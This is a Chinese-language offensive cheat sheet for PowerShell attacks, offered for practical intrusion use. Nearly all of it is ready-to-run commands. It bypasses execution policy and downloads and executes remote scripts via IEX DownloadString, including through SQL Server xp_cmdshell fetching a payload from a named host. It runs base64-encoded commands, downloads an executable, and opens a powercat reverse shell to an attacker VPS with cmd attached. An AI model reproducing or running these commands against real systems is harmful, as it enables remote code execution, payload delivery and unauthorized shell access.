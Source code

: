 <a name="EvZI5"></a>
# <br />
**本地绕过权限执行**powershell.exe -exec bypass -file ./aufeng.ps1<br /> <br />**远程绕过权限执行**#cmd窗口执行以下命令<br />`powershell -command IEX `(`New-Object System.Net.Webclient`)`.DownloadString`('vps的ip/aufeng.ps1')<br /> <br />#在powershell窗口执行<br />`IEX `(`New-Object System.Net.Webclient`)`.DownloadString`('http://ip/aufeng.ps1')<br />**Sqlserver执行powershell命令**<br />use master;exec master..xp_cmdshell "powershell -nop -c iex(New-Object Net.WebClient).DownloadString('http://www.sp0n.cf/ms78.ps1')"<br />**powershell执行base64命令**-enc :把ps脚本编码成base64来执行，实战用的最多<br />PS C:\Users\19307> $MYCOMMAND = "whoami"   <br />PS C:\Users\19307> $ENCODED = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($MYCOMMAND))<br />PS C:\Users\19307> Write-Output $ENCODED<br />dwBoAG8AYQBtAGkA<br /> <br />powershell -enc base64编码<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611399979876-bb4d8ccf-0c1e-4859-8c15-368598dfdf54.png#align=left&display=inline&height=55&originHeight=160&originWidth=1197&status=done&style=none&width=415)<br /> <br />**powershell下载文件**
```
powershell (new-object system.net.webclient).downloadfile('http://xxx:端口/aufeng.exe','d:/aufeng.exe');
```
 <br /> <br /> <br />**powershell反弹shell**<br />**利用powershell的powercat反弹shell**，但需要翻墙能访问外网才行。<br />#在cmd窗口执行<br />powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c vps的ip -p 8888 -e cmd<br /> <br />#在powershell窗口执行<br />IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c vps的ip -p 8888 -e cmd<br /> 
